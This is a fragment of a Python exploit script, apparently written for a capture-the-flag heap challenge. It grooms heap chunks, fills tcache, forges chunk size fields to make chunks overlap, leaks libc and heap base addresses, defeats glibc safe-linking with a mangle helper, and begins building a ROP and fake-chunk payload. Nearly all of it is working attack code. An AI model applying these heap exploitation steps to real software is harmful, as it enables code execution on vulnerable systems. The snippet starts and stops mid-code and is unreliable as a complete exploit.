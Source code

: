 ```python
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

#----------------------------------------------------

a(0xf8, b'11111111')
a(0xf8, b'22222222')
a(0x48, b'33333333') #2
a(0x48, b'44444444') #3
a(0x48, b'........') #4
a(0x48, b'........') #5
a(0xf8, b'55555555')
a(0x28, b'66666666')
for i in range(7):
	a(0xf8, b'a')

for i in range(7):
	d(14-i)

a(0x418, b'cccccccc') #8
a(0x18, b'cccccccc')

d(1)
e(0, b'!'*0xf8+p64(0x241)[:-1])
e(5, b'!'*0x40+p64(0x240))

d(6)
a(0x78, b'aaaaaaaa')
a(0x78, b'bbbbbbbb')

d(8)
v(2)
r.recvuntil(b'[2]: ')
leak = u64(r.recv(8))
print(f"leak: {leak:x}")
libc.address = leak - 0x219ce0
stdout = libc.sym['_IO_2_1_stdout_']
environ = libc.sym['environ']
leak = u64(r.recv(8))
print(f"leak: {leak:x}")
heap = leak - 0xe00
def mangle(v):
	return v ^ (heap >> 12)

rop = ROP(libc)

print(f"base: {libc.address:x}")
print(f"heap: {heap:x}")

payload = b''
payload += b'@'*0xf8
payload += flat(0x81)
payload += b'@'*0x78
payload += flat(0x81)
payload += b'@'*0x78

payload += flat(0x51)
payload += b'2'*0x48
payload += flat(0x51)
payload += b'3'*0x48
payload += flat(0x51)
payload += b'4'*0x48
payload += flat(0x51)
```